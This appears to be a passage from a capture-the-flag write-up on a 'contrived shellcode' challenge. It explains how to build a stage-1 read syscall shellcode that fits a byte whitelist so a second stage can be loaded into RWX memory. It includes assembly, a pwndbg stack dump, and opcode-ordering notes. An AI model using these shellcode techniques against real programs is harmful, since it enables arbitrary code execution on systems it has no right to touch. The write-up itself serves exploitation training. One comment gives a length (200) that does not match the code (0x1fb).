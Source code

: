 With this approach working, we'll need to develop our shellcode for this problem. Reading in a second stage shellcode would be the best approach since the buffer allocates ``0x1000`` bytes of ``RWX`` memory. We can just read in a second-stage shellcode that is not bound by the original whitelist. 

```c
unsigned char* code = mmap(NULL, 0x1000, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
```

To create our stage1 ``read shellcode``, we will need to set the registers to the following:

- rax: 0 (SYS_read)
- rdi: 0 (stdin)
- rsi: address of RWX memory
- rdx: large enough value to write new shellcode (past RWX up into current instruction)

Examining the state of the stack, it appears that if we ``pop rsi`` three times, the third pop will pick up the address of the RWX memory. 

```
│────────────────────────────────────────────────────────────────────────────────────────
│pwndbg> stack
│00:0000│ rsp 0x7fffb1516a98 —▸ 0x560566b23295 (main+155) ◂— mov eax, 0
│01:0008│     0x7fffb1516aa0 ◂— 0xf700000000
│02:0010│     0x7fffb1516aa8 —▸ 0x7f2d4dd61000 ◂— add al, 0xf /* 0xf040f040f040f04 */
```

With this knowledge, our basic shellcode might look like the following. 

```
mov rdx, 0x1fb  /* length   */
pop rsi
pop rsi
pop rsi         /* RWX memory &/
mov rdi, 0x0    /* stdin    */
mov rax, 0x0 	/* SYS_read */
syscall         /* executes read(rdi=stdin, rsi=RWX, rdx=200) */
```

What we need to do next is to order these by the value of the assembly instructions. For example, ``pop rsi`` is ``0x5e`` and ``mov rdi`` is ``0xbf``. So we will need to add eax up to ``0x5e (pop rsi)``, insert the instruction at [rip], then add eax by ``(0xbf-0x5e)`` to get ``eax=0xbf (mov rdi)`` and insert the instruction. Note, the binary only accepts 0x100 bytes of shellcode. So choosing the right instructions and order is important (and where I spent most of my time refining a solution.) At one point, I [patched the binary](contrived-shellcode-patch) to accept 0x200 bytes so that I could test my approach. Seeing it succeed on the patched binary gave me the final push to work through and reduce the shellcode size to 233 bytes. The final order I developed was: 

```
pop rsi (0x5e)				 /* pop 1st stack value  */
pop rsi (0x5e)				 /* pop 2nd stack value  */
pop rsi (0x5e)               /* sets rsi = RWX.      */
mov rdi, 0x0    (0xbf)       /* rdi = 0x0 (stdin)    */
mov rdx, 0x1fb  (0x1fbba)    /* rdx = 0x1fb (len)    */
sub rax, rax    (0xc02948)   /* rax = 0x0 (SYS_read) */
```  
